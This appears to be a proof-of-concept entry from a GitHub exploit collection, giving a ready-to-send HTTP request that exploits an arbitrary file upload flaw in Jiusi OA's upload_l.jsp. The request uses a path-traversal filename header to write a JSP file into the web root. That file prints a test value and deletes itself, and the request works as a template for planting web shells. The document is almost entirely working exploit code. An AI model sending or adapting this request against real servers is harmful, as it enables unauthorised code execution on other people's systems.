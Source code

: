 # jiusiOA_upload_l_fileupload
from: https://github.com/wy876/POC/blob/main/%E4%B9%9D%E6%80%9DOA/%E4%B9%9D%E6%80%9DOA%E7%B3%BB%E7%BB%9Fupload_l.jsp%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E.md
product: 九思OA
```
POST /jsoa/wpsforlinux/src/upload_l.jsp?openType=1&flowflag=1&userName=1&recordId=1 HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Content-Length: 102
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Upgrade-Insecure-Requests: 1
filename: /../../tologin.jsp

<%out.println(111*111);new java.io.File(application.getRealPath(request.getServletPath())).delete();%>
```
